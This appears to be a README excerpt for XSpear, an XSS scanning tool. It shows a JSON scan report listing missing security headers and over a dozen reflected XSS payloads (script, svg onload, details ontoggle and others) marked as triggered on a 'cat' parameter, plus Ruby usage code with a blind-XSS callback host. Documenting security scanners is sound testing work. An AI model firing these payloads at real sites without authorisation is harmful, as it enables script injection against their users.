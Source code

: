 ```
{"starttime":"2019-08-14 23:58:12 +0900","endtime":"2019-08-14 23:58:44 +0900","issue_count":24,"issue_list":[{"id":0,"type":"INFO","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Found Server: nginx/1.4.1"},{"id":1,"type":"INFO","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Not set HSTS"},{"id":2,"type":"INFO","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Content-Type: text/html"},{"id":3,"type":"LOW","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Not Set X-Frame-Options"},{"id":4,"type":"MIDUM","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Not Set CSP"},{"id":5,"type":"INFO","issue":"DYNAMIC ANALYSIS","method":"GET","param":"cat","payload":"XsPeaR\"","description":"Found SQL Error Pattern"},{"id":6,"type":"INFO","issue":"REFLECTED","method":"GET","param":"cat","payload":"rEfe6","description":"reflected parameter"},{"id":7,"type":"INFO","issue":"FILERD RULE","method":"GET","param":"cat","payload":"onhwul=64","description":"not filtered event handler on{any} pattern"},{"id":8,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<script>alert(45)</script>","description":"reflected XSS Code"},{"id":9,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<textarea autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":10,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<video/poster/onerror=alert(45)>","description":"reflected HTML5 XSS Code"},{"id":11,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<audio src onloadstart=alert(45)>","description":"reflected HTML5 XSS Code"},{"id":12,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<details/open/ontoggle=\"alert`45`\">","description":"reflected HTML5 XSS Code"},{"id":13,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<select autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":14,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<marquee onstart=alert(45)>","description":"reflected HTML5 XSS Code"},{"id":15,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<input autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":16,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"\"><iframe/src=JavaScriPt:alert(45)>","description":"reflected XSS Code"},{"id":17,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<meter onmouseover=alert(45)>0</meter>","description":"reflected HTML5 XSS Code"},{"id":18,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<keygen autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":19,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<audio src onloadstart=alert(45)>","description":"triggered <audio src onloadstart=alert(45)>"},{"id":20,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<marquee onstart=alert(45)>","description":"triggered <marquee onstart=alert(45)>"},{"id":21,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<details/open/ontoggle=\"alert(45)\">","description":"triggered <details/open/ontoggle=\"alert(45)\">"},{"id":22,"type":"VULN","issue":"XSS","method":"GET","param":"cat","payload":"<script>alert(45)</script>","description":"triggered <script>alert(45)</script>"},{"id":23,"type":"VULN","issue":"XSS","method":"GET","param":"cat","payload":"'\"><svg/onload=alert(45)>","description":"triggered <svg/onload=alert(45)>"}]}
```

## Usage on ruby code
```ruby
require 'XSPear'

# Set options
options = {}
options['thread'] = 30
options['cookie'] = "data=123"
options['blind'] = "https://hahwul.xss.ht"
options['output'] = json

# Create XSpear object with url, options
s = XspearScan.new "https://www.hahwul.com?target_url", options

# Scanning
s.run
result = s.report.to_json
r = JSON.parse result
```
